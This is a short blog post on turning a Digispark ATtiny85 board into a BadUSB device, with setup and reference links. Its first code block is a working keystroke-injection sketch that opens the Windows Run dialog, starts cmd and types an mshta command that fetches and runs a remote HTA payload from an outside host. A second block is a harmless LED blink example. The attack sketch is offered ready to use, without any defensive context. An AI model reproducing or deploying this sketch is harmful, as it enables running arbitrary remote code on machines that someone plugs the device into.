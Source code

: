 ```yaml
---
author: XhstormR
categories:
- MCU
- BadUSB
date: 2019-11-16T16:15:32+08:00
title: Digispark BadUSB
---
```


<!--more-->

Updated on 2019-11-16

> 基于 Attiny85 单片机

## Code
```c
#include "DigiKeyboard.h"

#define KEY_CAPSLOCK 57

void setup() {
    DigiKeyboard.delay(1000);
    DigiKeyboard.sendKeyStroke(0);
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
    DigiKeyboard.delay(500);
    DigiKeyboard.println("cmd");
    DigiKeyboard.delay(500);
    DigiKeyboard.println("mshta http://1.1.1.1/main.hta & exit");
}

void loop() {
}
```

```c
void setup() {
    pinMode(1, OUTPUT);
}

void loop() {
    digitalWrite(1, HIGH);
    delay(1000);
    digitalWrite(1, LOW);
    delay(1000);
}
```

## Install
* https://github.com/arduino/Arduino
* https://github.com/digistump/arduino-boards-index
* https://github.com/digistump/DigistumpArduino/releases/latest

## Reference
* https://github.com/toxydose/Duckyspark
* [Digispark Example](https://github.com/digistump/DigistumpArduino/tree/master/digistump-avr/libraries/Digispark_Examples)
* [DigiMouse.h](https://github.com/digistump/DigistumpArduino/blob/master/digistump-avr/libraries/DigisparkMouse/DigiMouse.h)
* [DigiKeyboard.h](https://github.com/digistump/DigistumpArduino/blob/master/digistump-avr/libraries/DigisparkKeyboard/DigiKeyboard.h)
* [HID Usage Tables](https://source.android.google.cn/devices/input/keyboard-devices#hid-keyboard-and-keypad-page-0x07)

